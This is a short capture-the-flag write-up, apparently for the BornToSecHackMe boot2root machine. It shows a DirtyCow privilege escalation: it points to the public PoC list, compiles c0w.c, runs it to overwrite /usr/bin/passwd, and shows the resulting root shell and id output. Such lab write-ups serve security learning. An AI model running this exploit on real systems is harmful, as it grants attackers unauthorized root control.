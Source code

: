 [See detailed writeup here 1](../writeup1.md)

[See detailed writeup here 9](writeup9.md)

Log in as any user account.
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
```

Here you can see other different DirtyCow exploits that you can use.

Unlike the previous one, we will use c0w.c this time.


```
gcc -pthread c0w.c  -o c0w
```

Now we will run it...

```
zaz@BornToSecHackMe:~$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

```

All we need to do is;

```
zaz@BornToSecHackMe:~$ /usr/bin/passwd

root@BornToSecHackMe:/home/zaz# whoami
root

root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
```

FINALLY WE ARE ROOT #11 ;D